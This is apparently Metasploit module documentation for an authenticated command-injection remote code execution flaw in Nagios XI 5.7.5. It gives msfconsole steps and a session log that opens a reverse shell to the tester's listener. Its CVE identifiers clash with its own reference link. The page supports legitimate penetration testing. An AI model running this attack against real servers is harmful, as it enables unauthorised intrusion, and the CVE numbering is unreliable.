 ## Vulnerable Application
This module exploits CVE-2021-25926, CVE-2021-25927, or CVE-2021-25928, OS command injection vulnerabilities in `/nagiosxi/config/monitoringwizard.php` that enables an authenticated user to achieve remote code execution on NagiosXI 5.7.5. There are two vulnerable parameters (ip_address, plugin_output_len), and either can be used to achieve code execution.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is version 5.7.5 and therefore vulnerable.

An OVA with the vulnerable NagiosXI application can be downloaded from Nagios [here](https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.7.5-64.ova).


## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_URL_PARAM plugin_output_len`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`


## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_URL_PARAM
The vulnerable URL parameter to inject payloads into. Defaults to plugin_output_len with ip_address as another option.

## Scenarios
Target is CentOS running NagiosXI 5.7.5 (Official OVA)
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.7
RHOSTS => 192.168.104.7
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 1234
LPORT => 1234
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.104.2:1234 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.5
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 1 opened (192.168.104.2:1234 -> 192.168.104.7:50884 ) at 2023-01-18 09:52:59 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```

## Version and OS
Tested Nagios XI 5.7.5 on CentOS using their provided OVA

## References
- https://github.com/fs0c-sh/nagios-xi-5.7.5-bugs/blob/main/README.md
- https://nvd.nist.gov/vuln/detail/CVE-2021-25296
